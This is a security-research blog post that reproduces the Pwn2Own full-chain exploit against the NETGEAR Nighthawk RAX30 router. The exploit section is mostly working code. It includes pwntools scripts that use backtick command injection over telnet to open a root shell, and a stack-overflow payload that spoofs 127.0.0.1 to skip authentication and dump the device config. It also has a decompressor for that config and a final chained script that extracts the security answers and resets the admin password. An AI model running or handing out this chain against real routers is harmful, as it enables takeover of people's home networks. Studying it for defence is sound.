


+++
date = '2025-04-16T11:57:43+07:00'
draft = false
title = 'A Proof-of-Concept for NETGEAR NIGHTHAWK RAX30 exploit (Pwn2own Toronto 2023)'
tags = ["Pwn-exploit"]
+++
## 1. Introduction

Recently, I was given a task - my first mission/real challenge in security research: reproducing a fullchain exploit for NETGEAR NIGHTHAWK RAX30 router device. Up until now, my experience was repoducing a bug (but not able to exploit it) in 7zip that allow attacker to RCE in the past, but this time I had to work on exploiting IoT device - an field that is completely new to me and I have no idea, or knowledge about it . My first though that it would take more than month to do it, but turns out it was not that hard. And here we are, today let's talk about how I manage to reproduce PoC for NETGEAR router.


## 2. Requirements
These are things we need for a successful exploit:

-   A NETGEAR router - with exact firmware: ``V1.0.7.78_1``, based on the one in p2o 2023 . Of course, if you don't have one, you can try to emulate it, but I can assure you it will be pain in the ass to patch and emulate it (Yeah, luckily I got one from my company).
-   A curious mind that always looking for answer.
Thats all we need for now, some tools I used to examine the router will be introduced later ;))
## 3. Development details

### 3.1 Basic information

When searching for information about the NETGEAR RAX30 router, I found some interesting blog writen about it:
-   https://claroty.com/team82/research/chaining-five-vulnerabilities-to-exploit-netgear-nighthawk-rax30-routers-at-pwn2own-toronto-2022
-   https://www.nccgroup.com/sg/research-blog/netgear-routers-a-playground-for-hackers/
-   https://www.securityweek.com/details-disclosed-for-exploit-chain-that-allows-hacking-of-netgear-routers/


In summary, the fullchain RCE of NETGEAR RAX30 router uses exactly 5 vulnerabilities for a complete exploit, with the exact order I list below:
-   [CVE-2023-27357](https://www.cvedetails.com/cve/CVE-2023-27357/): Some SOAP request such as GetInfo, missing authentication, leading to information disclosure. This one didn't reveal much sensitive information, but will be much useful in later (and you will probaly understand why it didn't authenticate). No authentication is required.
-   [CVE-2023-27368](https://www.cvedetails.com/cve/CVE-2023-27368/): Stack-based buffer overflow to bypass authentication. In one of router's service - the soap_serverd, it didn't validate the request header content as its length, leading to buffer overflow attack. No authentication is required.
-   [CVE-2023-27369](https://www.cvedetails.com/cve/CVE-2023-27369/): Similar to the one above, the bug arises in validating content length, leading to buffer overflow attack. The only difference is that the location of this bug is in the parsing header function. Also, this bug is happen to be the most importance once, allow authentication bypass. No authentication is needed.
-   [CVE-2023-27370](https://www.cvedetails.com/cve/CVE-2023-27370/): Device configuration cleartext storage information disclosure vuln, allow attacker to read all configurations router including security question - which attacker can use to change the admin password in router. Authentication is required, but can be bypassed using flaws above.
-   [CVE-2023-27367](https://www.cvedetails.com/cve/CVE-2023-27367/): Command injection RCE vuln. This one happen in one of router service, as it didn't filtering some command, leading to RCE. Authentication is required, but can be bypassed using flaws above.


Affected version: ``Before (<) 1.0.10.94``
### 3.2 Target Identify
In the first three of CVEs did mention about: `SOAP request` and `soap_serverd`, therefore our main focus will be this `soap` thing.

### 3.3 Extract binary
Let say this `soap_serverd` exists as an service, handling SOAP request, which means there is a binary, how can we get this thing out? There are alot of ways to do it:
-   Dumping firmware, then use `binwalk` to get the file
-   SSH into router and get it out.
The second method depends if vendor enable router's sshd service, and in my case, there is no ssh here, so we have to do it a hardway. Luckily, I don't need to dump the firmware from router, as I can get it from vendor's website: https://kb.netgear.com/000064989/RAX30-Firmware-Version-1-0-7-78 (actually, there is a third method for this, base on the 4th CVE)

Below are the result 

After binwalk, you should find all files in the filesystem:

Now we will looking for `soap_serverd`:


### 3.4 Achieve router's shell - Exploit CVE-2023-27367
Having a router shell helps us in debugging and analyzing some service, and our target is to open one. This is kinda problem, but alot of method can be used in case router is not configured with SSH. You can change the firmware and flash it back to the router, with ssh service is enabled, or hardware attack - access UART pins and use terminal emulator for openning router shell... You can also looking for some exploit on internet that allow telnet, ssh of a specific router. I did the same thing on the last case, and I found amazing repo about using magic packet to enable telnet.

Here is the repo for enable telnet: https://github.com/insanid/NetgearTelnetEnable

After enable telnet, login with our admin credentials, we will get something like this:


The reason this work is because, most of NETGEAR router device reuse base firmware, that have a service running in port 23 that can enable telnet service.


Remember about CVE-2023-27367 that allows us to command injection , leading to RCE? In the first glance I kinda don't understand what it means, so I try something stupid like this:


So we can immediately notice that it allows us to run by simply put a backtick (a special character that allow to run a command inside a command) after a command. But the shell I got from ``ping `/bin/bash 1>&0` `` is not stable, so I change it to `ps $(/bin/bash 1>&0)`.


Why did this happen? It's because the handling function for telnet command execution - `cmli_processCliCmd` in `libcms_cli.so` library did not filter command properly, which we can abuse to simple command injection like that.


So now we got a shell from router, we can abuse this to setup the environment for debugging or file transfering.
I use 2 script below to up/down file from/to router

**Script for up file to router**
```python
from pwn import *
import argparse
from os import system
from tqdm import tqdm
parser = argparse.ArgumentParser(description="Push file to NETGEAR RAX30")
parser.add_argument("--file", "-f", help="File to push", required=True)
parser.add_argument("--remote", "-r", help="Remote IP", required=True)
parser.add_argument("--path", "-p", help="path in remote (router)")

args = parser.parse_args()
IP = args.remote
file = args.file
if args.path:
    path = args.path
else:
    path = "/bin/mybin"


io = remote(str(IP), 23)
sla =io.sendlineafter
sa = io.sendafter

sla(b"Login: ", b"admin")
sla(b"Password: ", b"<yourpassword>")

sla(b"> ", b"tftp `/bin/bash 1>&0`")
# io.interactive()

file_contents = open(file, "rb").read().replace(b"\r", b"").decode().split("\n")

# sla(b"# ", f"touch {path}".encode())
for i in tqdm(range(0, len(file_contents), 5), desc="Up file progress"):
    if (i + 5 >=len(file_contents)):
        l = "".join(j for j in file_contents[i : ])
    else:
        l = "".join(j for j in file_contents[i : i + 5])
    l = l.replace("\n", "")
    sla(b"# ", f"echo -n {l} >> {path}".encode())
    io.recvline(0)
    # io.interactive()

io.interactive()
```
Remember to convert to base64 using `base64` tool

Push GDBserver-static version to router:


**Script for get file from router**
```python
from pwn import *
import argparse
from os import system

parser = argparse.ArgumentParser(description="Get file from NETGEAR RAX30")
parser.add_argument("--file", "-f", help="File to get", required=True)
parser.add_argument("--remote", "-r", help="Remote IP", required=True)
parser.add_argument("--output", "-o", help="Output file location")

args = parser.parse_args()
IP = args.remote
file = args.file
if args.output:
    output = args.output
else:
    output = "./output"

io = remote(str(IP), 23)
sla =io.sendlineafter
sa = io.sendafter

sla(b"Login: ", b"admin")
sla(b"Password: ", b"<yourpassword>")

sla(b"> ", b"tftp `/bin/bash 1>&0`")
sla(b"# ", f"base64 {file}".encode())
io.recvline(0)
soap_64 = io.recvuntil(b"#")[:-2].replace(b"\n", b"").replace(b"\r", b"")
# print(soap_64)
f = open(f"content_base64", "w")
f.write(soap_64.decode())
f.close()

system(f"base64 -d content_base64 > {output}; rm ./content_base64")
io.close()
```


### 3.5 Finding bug location
#### 3.5.1 Some interaction
I try to find `soap_serverd` process and I got this:

2 port are listened, 1 on 5000 and 1 on  5043. The port 5000 is for handling HTTP request and the 5043 is for hanling HTTPs request, which require ssl when netcat.


Base on this, we can setup another process of `soap_serverd` on other port for debugging (let say 31337), remember to install gdb-multiarch on our local side, as we are working with `ARM` system, not `Intel`

#### 3.5.2 Decompiling
From what I read:


It's not really hard to findout where exectly the bug is:
```c
undefined4 main_suspect(undefined4 param_1)

{
  bool bVar1;
  int iVar2;
  int iVar3;
  size_t sVar4;
  void *__ptr;
  char *log;
  undefined4 uVar5;
  char request_buffer [2048];
  char METHOD [2048];
  char PATH [2048];
  char PROTOCOL [2048];
  char soap_content [2048];
  char local_824 [2048];
  
  iVar2 = __stack_chk_guard;
  request_buffer[0] = '\0';
  request_buffer[1] = '\0';
  request_buffer[2] = '\0';
  request_buffer[3] = '\0';
  memset(request_buffer + 4,0,0x7fc);
  METHOD[0] = '\0';
  METHOD[1] = '\0';
  METHOD[2] = '\0';
  METHOD[3] = '\0';
  memset(METHOD + 4,0,0x7fc);
  PATH[0] = '\0';
  PATH[1] = '\0';
  PATH[2] = '\0';
  PATH[3] = '\0';
  memset(PATH + 4,0,0x7fc);
  PROTOCOL[0] = '\0';
  PROTOCOL[1] = '\0';
  PROTOCOL[2] = '\0';
  PROTOCOL[3] = '\0';
  memset(PROTOCOL + 4,0,0x7fc);
  soap_content[0] = '\0';
  soap_content[1] = '\0';
  soap_content[2] = '\0';
  soap_content[3] = '\0';
  memset(soap_content + 4,0,0x7fc);
  local_824[0] = '\0';
  local_824[1] = '\0';
  local_824[2] = '\0';
  local_824[3] = '\0';
  memset(local_824 + 4,0,0x7fc);
  iVar3 = maybe_SSL_read(request_buffer);
  if (iVar3 == 0) {
    log_log(7,"handle_soapRequest",0x17f,"line:[%s]",request_buffer);
    log = "No request found.";
  }
  else {
    iVar3 = __isoc99_sscanf(request_buffer,"%[^ ] %[^ ] %[^ ]",METHOD,PATH,PROTOCOL);
    if (iVar3 == 3) {
      iVar3 = strcasecmp(METHOD,"post");
      if (iVar3 == 0) {
                    /* post method case, header parser */
        FUN_00014fc8(param_1);
        bVar1 = false;
        while (((iVar3 = maybe_SSL_read(request_buffer), iVar3 == 1 &&
                (iVar3 = cmsUtl_strcmp(request_buffer,"\n"), iVar3 != 0)) &&
               (iVar3 = cmsUtl_strcmp(request_buffer,"\r\n"), iVar3 != 0))) {
          uVar5 = cmsUtl_strlen("SOAPAction:");
          iVar3 = cmsUtl_strncasecmp(request_buffer,"SOAPAction:",uVar5);
          if (iVar3 == 0) {
            sVar4 = strspn(request_buffer + 0xb," \t");
            cmsUtl_strncpy(soap_content,request_buffer + 0xb + sVar4,0x800);
            log_log(7,"handle_soapRequest",0x1af,"soapAction:[%s]",soap_content);
            bVar1 = true;
          }
          else {
            log = strstr(request_buffer,"Content-Length:");
            if (log == (char *)0x0) {
              sVar4 = cmsUtl_strlen("Cookie:");
              iVar3 = strncasecmp(request_buffer,"Cookie:",sVar4);
              if ((iVar3 == 0) &&
                 (__ptr = (void *)FUN_00015058(request_buffer), __ptr != (void *)0x0)) {
                FUN_00014f34(param_1,__ptr);
                log_log(7,"handle_soapRequest",0x1be,"token:[%s]",__ptr);
                free(__ptr);
              }
            }
            else {
              iVar3 = cmsUtl_strlen("Content-Length: ");
              iVar3 = atoi(log + iVar3);
              log_log(7,"handle_soapRequest",0x1b5,"Content-Length:[%d]",iVar3);
            }
          }
        }
        uVar5 = 0;
        if (bVar1) {
          iVar3 = FUN_00018dac(local_824);
          if (0 < iVar3) {
            local_824[iVar3 + 1] = '\0';
            soap_action_handler(0,soap_content,local_824,param_1);
          }
        }
        goto LAB_000153c4;
      }
      log_log(7,"handle_soapRequest",0x196,"Received method is [%s].",METHOD);
      log = "That method is not handled by us.";
    }
    else {
      log_log(7,"handle_soapRequest",399,"method:[%s], path:[%s], protocol:[%s]",METHOD,PATH,
              PROTOCOL);
      log = "Can\'t parse request.";
    }
  }
  uVar5 = 0xffffffff;
  FUN_000189b0(400,"Bad Request",0,log);
LAB_000153c4:
  if (iVar2 != __stack_chk_guard) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar5;
}
```
The bug happen on this line:

It read from `request_buffer` and passdown to `METHOD`, `PATH` and `PROTOCOL` variables, separate by a space character. Then what is wrong with it? What if we can some how overflow a big data to `request_buffer`, won't that lead to overflow on 3 of them? That is exactly what happen in CVE-2023-27369.

After some play aroung with some functions, I also found these:


The first one handling read content request (from port 5043), as we know that `soap_serverd` process can run in both mode : `HTTP` and `HTTPs`. We can notice that it only stop reading until it find `\n` character. We can abuse it to overflow `request_buffer` which can lead to overflow the other 3 variable, achieve stack overflow. In the second function, it is used to read from port 5000, but there is a limit to the reading buffer (0x800), which we cannot use for overflow.

Another interesting function I found while reversing is `soap_action_handler`:

This one contains code for handling the SOAP action request, and you can probably find all API that `soap_serverd` service expose


And the final one that is crucial is `checkAuthentication`:


I say that this one is crucial is because most of soap API have to authenticate before executing, and is one of the target we need to bypass.


### 3.6 Exploit
Base on information given in this [post](https://claroty.com/team82/research/chaining-five-vulnerabilities-to-exploit-netgear-nighthawk-rax30-routers-at-pwn2own-toronto-2022), here are what we going to do:
```
Sending request with our crafted payload -> trigger bug -> execute GetConfigInfo API -> get the config router -> use router config to change admin password.
```

There are 2 main things to bypass 
-   As I said earlier, we can use stack buffer overflow to rewrite variable, but as binary is compiled with `stack canary`, how can we bypass it?

-   How do we bypass authentication ? 

In the `checkAuthentication` function, there is a line that check whether the IP address is from local (router), if it is, it will execute without further checking.


And when I debug it, I found the IP address is located on the stack, after `request_buffer` 0x318c bytes:
 

What about stack canary? Turns out, you really don't need to care about it, as before it check canary, it will still execute the function handling the SOAP action, and only after that, check the canary.


#### 3.6.1 Bug trigger
So now after understand about the task, my first try is to trigger the bug. I first make my payload look something like this:


Here is the result:
-   Before sending payload

-   After sending payload


You can see that it work, as the old service is crashed and is replaced by a new one.

#### 3.6.2 Crafting API payload
Now we are able to trigger the bug, we need to find how to craft an SOAP request payload to get the config device ? After a while searching, I found this: https://github.com/DRuggeri/netgear_client
There is a list of API request payload that I can use, and one of them is `GetConfigInfo`


#### 3.6.3 Get Router config
```python
payload3= f"POST lmao abcd "
IP_offset = 0x318c # offset from request buffer
payload3 = payload3 + " " * (IP_offset - len(payload3)) + "127.0.0.1\x00\n"

payload3 += '''Accept: text/xml
Accept: multipart/*
Accept: application/soap
User-Agent: SOAP::Lite/Perl/1.09
Content-Length: 577
Content-Type: text/xml; charset=utf-8
SOAPAction: "urn:NETGEAR-ROUTER:service:DeviceConfig:1#GetConfigInfo"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope 
    soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" 
    xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">

  <soap:Body>
      </soap:Body>
</soap:Envelope>

'''
```

Result:


### 3.7 Decrypt router config
The hardest part in this chain is decrypting the router config we have gotten, which is exploiting CVE-2023-27370. When we decode base64 from our config, we get a weird format binary file:


By comparing the config file we get from our exploit (left), with the one got from backup config (right), I realize that the actual start offset of compress data is 0x7c, and it use a weird Lzw compression algorithm.

The reason I said it use weird compression algorithm is because, when I try to decompress it, it return no result:


So, again I need to find the function responsible for decrypting config. And I found it in `libcms_core.util`, the function `oal_readConfigFlashToBuf`


With a little of reversing the code, I craft a decompressor that could extract the real content of router's config
```c
#include <stdio.h>
#include <stdlib.h>

void LzwInitDecoder(unsigned int ** ptrholder, char *buffer, int length)
{
    unsigned int * tmp = (unsigned int *) malloc(0x4048);
    *ptrholder = tmp;
    tmp[0] = buffer;
    tmp[1] = buffer  +length;
    tmp[2] = 0;
    tmp[3] = 0;
    tmp[4] = 1;
    tmp[5] = 9;
    tmp[6] = 0x1ff;
    tmp[7] = 8;
    tmp[8] = 0x100;
    tmp[9] = 0x101;
    tmp[10] = 0x102;
    tmp[11] = 0x200;
    tmp[12] = 1;
    tmp[13] = 0x102;
    tmp[14] = 0xffffffff;
    tmp[15] = 0xffffffff;
    tmp[16] = tmp + 0x11;
    tmp[0x1011] = 0;
}


unsigned short hehe[17] = 
{
    0x0000, 0x0001, 0x0003, 0x0007, 0x000f, 0x001f, 0x003f, 0x007f, 
    0x00ff, 0x01ff, 0x03ff, 0x07ff, 0x0fff, 0x1fff, 0x3fff, 0x7fff, 0xffff
};

int LzwDecode(unsigned int * initbuffer, unsigned char *decompressbuffer, int length)
{
  unsigned char  *puVar1;
  unsigned char curchar;
  unsigned int *puVar3;
  unsigned int *puVar4;
  unsigned char *pbVar5;
  int iVar6;
  unsigned int uVar7;
  unsigned int uVar8;
  int iVar9;
  unsigned int uVar10;
  unsigned int uVar11;
  unsigned int uVar12;
  int len;
  unsigned char *compress_ptr;
  
  if ((int)initbuffer[9] < 0) {
    length = -1;
  }
  else {
    uVar10 = initbuffer[0xe];
    puVar3 = (unsigned int *)initbuffer[0x10];
    uVar12 = initbuffer[0xf];
    len = length;
    compress_ptr = decompressbuffer;
    do {
      while (puVar3 <= initbuffer + 0x11) {
        while( 1 ) {
          iVar6 = initbuffer[2];
          if ((int)initbuffer[5] <= iVar6) break;
          pbVar5 = (unsigned char *)*initbuffer;
          *initbuffer = pbVar5 + 1;
          curchar = *pbVar5;
          initbuffer[2] = iVar6 + 8;
          initbuffer[3] = (unsigned int)curchar | initbuffer[3] << 8;
        }
        uVar7 = iVar6 - initbuffer[5];
        initbuffer[2] = uVar7;
        uVar7 = initbuffer[6] & (unsigned int)initbuffer[3] >> (uVar7 & 0xff);
        if (initbuffer[9] == uVar7) {
          // // log_log(7,"cmsLzw_decode",0x8f,"got end code %d",initbuffer[9],compresscontent);
LAB_00021474:
          initbuffer[9] = 0xffffffff;
          goto Exitroutine;
        }
        if (initbuffer[8] == uVar7) {
          // // log_log(7,"cmsLzw_decode",0x92,"got clear code %d",uVar7,compresscontent);
          uVar10 = initbuffer[7] + 1;
          initbuffer[5] = uVar10;
          initbuffer[6] = (unsigned int) hehe[uVar10];//(unsigned int)*(unsigned short *)(&DAT_0002d666 + uVar10 * 2);
          printf("Index: %d\n", uVar10);
          initbuffer[0xd] = initbuffer[10];
          initbuffer[0xb] = 1 << (uVar10 & 0xff);
          uVar10 = 0xffffffff;
          uVar12 = 0xffffffff;
        }
        else {
          uVar8 = initbuffer[0xd];
          if (uVar8 == uVar7) {
            if ((unsigned int )uVar10 < 0) {
LAB_000215f8:
              // // log_log(3,"cmsLzw_decode",0xa0,"code %d greater than slot %d",uVar7,uVar8);
              goto LAB_00021474;
            }
            *(unsigned char *)puVar3 = (unsigned char)uVar10;
            uVar11 = uVar12;
            puVar3 = (unsigned int *)((unsigned int)puVar3 + 1);
          }
          else {
            uVar11 = uVar7;
            if ((int)uVar8 <= (int)uVar7) goto LAB_000215f8;
          }
          for (; puVar4 = (unsigned int *)((int)puVar3 + 1), (int)initbuffer[10] <= (int)uVar11;
              uVar11 = (unsigned int)*(unsigned short *)((int)initbuffer + (uVar11 + 0x1020) * 2 + 4)) {
            *(unsigned char *)puVar3 = *(unsigned char *)((int)initbuffer + uVar11 + 0x1044);
            puVar3 = puVar4;
          }
          *(unsigned char *)puVar3 = (unsigned char)uVar11;
          iVar9 = initbuffer[0xd];
          iVar6 = initbuffer[0xb];
          if (-1 < (int)uVar12 && iVar9 < iVar6) {
            *(unsigned char *)((int)initbuffer + iVar9 + 0x1044) = (unsigned char)uVar11;
            initbuffer[0xd] = iVar9 + 1;
            *(unsigned short *)((int)initbuffer + (iVar9 + 0x1020) * 2 + 4) = (unsigned short)uVar12;
          }
          uVar10 = uVar11;
          puVar3 = puVar4;
          uVar12 = uVar7;
          if ((iVar6 - initbuffer[0xc] <= (int)initbuffer[0xd]) && ((int)initbuffer[5] < 0xc)) {
            initbuffer[0xb] = iVar6 << 1;
            iVar6 = initbuffer[5] + 1;
            initbuffer[5] = iVar6;
            initbuffer[6] = (int) hehe[iVar6];//(unsigned int)*(unsigned short *)(&DAT_0002d666 + iVar6 * 2);
            printf("Index: %d\n", iVar6);
          }
        }
      }
      len = len + -1;
      puVar1 = (unsigned char *)((int)puVar3 + -1);
      puVar3 = (unsigned int *)((int)puVar3 + -1);
      *compress_ptr = *puVar1;
      compress_ptr = compress_ptr + 1;
    } while (len != 0);
Exitroutine:
    initbuffer[0x10] = puVar3;
    initbuffer[0xf] = uVar12;
    initbuffer[0xe] = uVar10;
    // // log_log(7,"cmsLzw_decode",199,"about to return, outlen=%d l=%d\n",length,len);
    length = length - len;
  }
  printf("Iterations: %d\n", len);
  return length;

}

void Dump2File(unsigned char * buf, int length, char  * filename)
{
    FILE * f = fopen(filename, "w");
    fwrite(buf, 1, length, f);
    fclose(f);
}

int main(int argc, char **argv)
{
    if (argc != 2)
    {
        printf("Usage: %s <configfile>\n", argv[0]);
        exit(0);
    }
    FILE *tmp = fopen(argv[1], "r");
    size_t sz = 0;
    fseek(tmp, 0, SEEK_END);
    sz = ftell(tmp);
    printf("Size: %d\n", sz);
    printf("Compress content size: %d\n", sz - 0x7c);
    fseek(tmp, 0, SEEK_SET);

    char *compress_buf = (char *) malloc(sz);
    fread(compress_buf, 1, sz, tmp);
    char *decompress_content = (char *)malloc(0x80000);
    compress_buf = compress_buf + 0x7c;

    unsigned int * ptrholder = 0;
    LzwInitDecoder(&ptrholder, compress_buf, sz - 0x7c);
    int returnconfiglen = LzwDecode(ptrholder, decompress_content, 0x80000);

    printf("return config length: %d\n", returnconfiglen);
    Dump2File((unsigned char *)ptrholder, 0x4048, "initbuffer");
    Dump2File((unsigned char *)decompress_content, returnconfiglen, "decompressbuffer");
}
```


### 3.8 Final stage - Combine all chain
The final step is to combine all exploit I have made.


Final script:
```python
from pwn import *
import argparse


parser = parser = argparse.ArgumentParser(description="NETGEAR RAX30 exploit")
parser.add_argument("--remote", "-r", help="router IP", required=True)


args = parser.parse_args()
IP = args.remote

io = remote(IP, 5043, ssl = True)


payload = '''POST http://routerlogin.net:5000/soap/server_sa/ HTTP/1.1
Accept: text/xml
Accept: multipart/*
Accept: application/soap
User-Agent: SOAP::Lite/Perl/1.09
Content-Length: 577
Content-Type: text/xml; charset=utf-8
SOAPAction: "urn:NETGEAR-ROUTER:service:DeviceInfo:1#GetInfo"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope 
    soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:M1="urn:NETGEAR-ROUTER:service:DeviceInfo:1" 
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" 
    xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <soap:Header>
    <SessionID>16DF8F8B8CBB9B1A1016</SessionID>
  </soap:Header>

  <soap:Body>
    <M1:GetInfo xsi:nil="true" />
      </soap:Body>
</soap:Envelope>'''

io.sendline(payload)

info = io.recvall().decode()
idx1 = info.index("<SerialNumber>")
idx2 = info.index("</SerialNumber>")
serial_number = info[idx1 + len("<SerialNumber>"): idx2]

io.close()

io = remote(IP, 5043, ssl = True)

payload3= f"POST lmao abcd "
IP_offset = 0x318c # offset from request buffer
payload3 = payload3 + " " * (IP_offset - len(payload3)) + "127.0.0.1\x00\n"

payload3 += '''Accept: text/xml
Accept: multipart/*
Accept: application/soap
User-Agent: SOAP::Lite/Perl/1.09
Content-Length: 577
Content-Type: text/xml; charset=utf-8
SOAPAction: "urn:NETGEAR-ROUTER:service:DeviceConfig:1#GetConfigInfo"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope 
    soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:M1="urn:NETGEAR-ROUTER:service:DeviceConfig:1" 
    xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" 
    xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" 
    xmlns:xsd="http://www.w3.org/2001/XMLSchema" 
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <soap:Header>
    <SessionID>16DF8F8B8CBB9B1A1016</SessionID>
  </soap:Header>
  <soap:Body>
      </soap:Body>
</soap:Envelope>

'''
io.send(payload3.encode())
buf = io.recvall().decode()
io.close()
idx1 = buf.index("<NewConfigFile>")
idx2 = buf.index("</NewConfigFile>")
# print(buf[idx1 + len("<NewConfigFile>"):idx2])

raw_config = buf[idx1 + len("<NewConfigFile>"):idx2]
f = open("router_config.cfg", "w")
f.write(raw_config)
f.close()

io.close()

from os import system
from base64 import b64decode as b64d
system("base64 -d router_config.cfg > lmao")
system("./selfmake_decompressor lmao")

f = open("./decompressbuffer", "rb")
buf = f.read()

idx1 = buf.index(b"<SecurityAnswer1>")
idx2 = buf.index(b"</SecurityAnswer1>")
tmp1 = buf[idx1 + len("<SecurityAnswer1>") : idx2].decode()
idx1 = buf.index(b"<SecurityAnswer2>")
idx2 = buf.index(b"</SecurityAnswer2>")

tmp2 = buf[idx1 + len("<SecurityAnswer2>") : idx2].decode()


# print(tmp1)
# print(tmp2)
ans1 = b64d(tmp1)[:-1].decode()


ans2 = b64d(tmp2)[:-1].decode()


f.close()
idx1 = buf.index(b"<SecurityQuestion1>")
idx2 = buf.index(b"</SecurityQuestion1>")

quesidx1 = int(buf[idx1 + len(b"<SecurityQuestion1>") : idx2].decode())

idx1 = buf.index(b"<SecurityQuestion2>")
idx2 = buf.index(b"</SecurityQuestion2>")

quesidx2 = int(buf[idx1 + len(b"<SecurityQuestion2>") : idx2].decode())

print(f"Router serial: {serial_number}")
print(f"Question index1 : {quesidx1} - Answer 1: {ans1}")
print(f"Question index2 : {quesidx2} - Answer 2: {ans2}")


import requests
import base64

class MinimalRouterReset:
    def __init__(self, base_url=""):
        self.base_url = base_url
        requests.packages.urllib3.disable_warnings()
        
    def _send_raw_json(self, endpoint, payload):
        """Send only the raw JSON payload with no extra headers"""
        response = requests.post(
            f"{self.base_url}{endpoint}",json=payload,
            verify=False
        )
        return response.json()

    def check_serial(self, serial_number):
        """Step 1: Serial number check (raw JSON only)"""
        return self._send_raw_json(
            "/pwd_reset/reset_pwd.cgi",
            {"function": "checkSN", "data": {"serialNumber": serial_number}}
        )

    def verify_answers(self, question1, answer1, question2, answer2):
        """Step 2: Answer verification (raw JSON only)"""
        return self._send_raw_json(
            "/pwd_reset/reset_pwd.cgi",
            {
                "function": "checkAnswer",
                "data": {
                    "answer1": base64.b64encode(answer1.encode()).decode(),
                    "answer2": base64.b64encode(answer2.encode()).decode(),
                    "question1": question1,
                    "answer1_input": answer1,
                    "question2": question2,
                    "answer2_input": answer2
                }
            }
        )

    def set_password(self, old_pw, new_pw, q1_id, q1_ans, q2_id, q2_ans):
        """Step 3: Password reset (raw JSON only)"""
        return self._send_raw_json(
            "/pwd_reset/reset_pwd.cgi",
            {
                "function": "setPassword",
                "data": {
                    "oldPassword": base64.b64encode(old_pw.encode()).decode(),
                    "password": base64.b64encode(new_pw.encode()).decode(),
                    "question1": q1_id,
                    "answer1": base64.b64encode(q1_ans.encode()).decode(),
                    "question2": q2_id,
                    "answer2": base64.b64encode(q2_ans.encode()).decode(),
                    "resetPwd": "true",
                    "enableReset": "true"
                }
            }
        )

client = MinimalRouterReset(base_url=f"http://{IP}")

# Example usage - replace with your actual values:
print("1. Checking serial...")
print(client.check_serial(serial_number=serial_number))

print("\n2. Verifying answers...")
print(client.verify_answers(
    question1=str(quesidx1), answer1=ans1,
    question2=str(quesidx2), answer2=ans2
))


import random
while True:
    q1 = random.randrange(1, 10)
    if q1 != quesidx1:
        break


while True:
    q2 = random.randrange(1, 10)
    if q2 != quesidx2:
        break


newpassword = "buymeacoffee123A@"
print("\n3. Resetting password...")
print(client.set_password(
    old_pw=newpassword,
    new_pw=newpassword,
    q1_id=str(q1), q1_ans="lmao",
    q2_id=str(q2), q2_ans="overshrek"
))

io = remote(IP, 23)

